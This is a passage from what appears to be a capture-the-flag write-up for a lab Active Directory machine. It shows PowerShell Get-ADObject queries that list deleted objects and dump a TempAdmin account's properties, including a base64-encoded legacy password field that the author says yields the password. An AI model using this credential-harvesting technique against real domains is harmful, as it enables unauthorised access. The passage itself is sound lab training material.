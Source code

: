```powershell
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

We can clearly see `TempAdmin` in the deleted objects. we can retrive all the properties on deleted objects in this case `TempAdmin` using `-Properties` flag and `-Filter` flag to `Get-ADObject` cmdlet.
```powershell
Get-ADObject -Filter 'ObjectGUID -eq "f0cc344d-31e0-4866-bceb-a842791ca059"'  -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
From the ouput we can see `cascadeLegacyPwd` property value `YmFDVDNyMWFOMDBkbGVz` which is base64 encoded string. which represents the `TempAdmin`  password. so we can decode it to get `TempAdmin` password.
```
```